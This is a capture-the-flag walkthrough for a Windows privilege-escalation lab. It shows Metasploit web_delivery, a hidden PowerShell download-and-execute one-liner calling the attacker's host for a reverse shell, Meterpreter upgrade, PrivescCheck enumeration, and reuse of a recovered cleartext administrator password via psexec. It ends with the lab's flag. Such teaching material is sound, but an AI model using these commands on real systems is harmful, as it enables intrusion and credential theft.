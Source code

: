 # 🔬Windows Privilege Escalation

> 🔬 [Windows: PrivescCheck](https://attackdefense.com/challengedetailsnoauth?cid=2404)
>
> - Target IP: `10.2.29.53`
> - Usage of the  **[PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck) script**
>   - *already present on the Victim Machine*

## Enumeration & Exploitation

```bash
nmap -sV 10.2.29.53
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
```

```bash
service postgresql start && msfconsole -q
```

```bash
setg RHOSTS 10.2.29.53
setg RHOST 10.2.29.53

search web_delivery
use exploit/multi/script/web_delivery
info
# Description:
#   This module quickly fires up a web server that serves a payload. The 
#   provided command which will allow for a payload to download and 
#   execute.
set target PSH\ (Binary)
set payload windows/shell/reverse_tcp
set PSH-EncodedCommand false
set LHOST eth1
exploit
```

- Copy the PowerShell code and run it on the target machine using `cmd`

```bash
powershell.exe -nop -w hidden -c [Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$z="echo ($env:temp+'\P4MPrq7y.exe')"; (new-object System.Net.WebClient).DownloadFile('http://10.10.24.2:8080/y3MMtnMlRkQ81pA', $z); invoke-item $z
```

- Back to the Attacker machine, *Command shell session opened*

![](.gitbook/assets/image-20230429104538548.png)

```bash
sessions 1
whoami
# Unprivileged user "student"
```

![Cmd Shell](.gitbook/assets/image-20230429104626554.png)

```bash
# Upgrade to a Meterpreter session
background
search shell_to
use post/multi/manage/shell_to_meterpreter
set LHOST eth1
set SESSION 1
show advanced
set WIN_TRANSFER VBS
options
# check the LPORT is not in conflict with the Session 1
run
sessions 2
```

![](.gitbook/assets/image-20230429105151345.png)

```bash
ps
migrate 5048
get privs
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
```

![](.gitbook/assets/image-20230429105333928.png)

## Privilege Escalation

```bash
cd C:\\Users\\student\\Desktop\\PrivescCheck
shell
dir
```

- Run [**`PrivescCheck`**](https://github.com/itm4n/PrivescCheck)

```bash
# Basic mode
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

# Extended Mode + Export Txt Report
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"
```

```bash
exit
meterpreter > download PrivescCheck_ATTACKDEFENSE.txt

root@attackdefense:~# featherpad PrivescCheck_ATTACKDEFENSE.txt
```

![PrivescCheck Report](.gitbook/assets/image-20230429110943953.png)

![WinLogon clear-text password](.gitbook/assets/image-20230429111044202.png)

> 📌 `administrator`:`hello_123321`

### Administrator Login

- Use the `administrator` user to run a **privileged `cmd`**, trying `SMB` legitimate authentication

```bash
psexec.py administrator@10.2.29.53 cmd.exe
```

```bash
cd C:\Users\Administrator\Desktop
dir
type flag.txt
```

- This can be done with the `exploit/windows/smb/psexec` Metasploit module too.



<details>
<summary>Reveal Flag: 🚩</summary>



`2b070a650a92129c2462deae7707b0c5`

![](.gitbook/assets/2023-04-29_11-33.png)

</details>

------

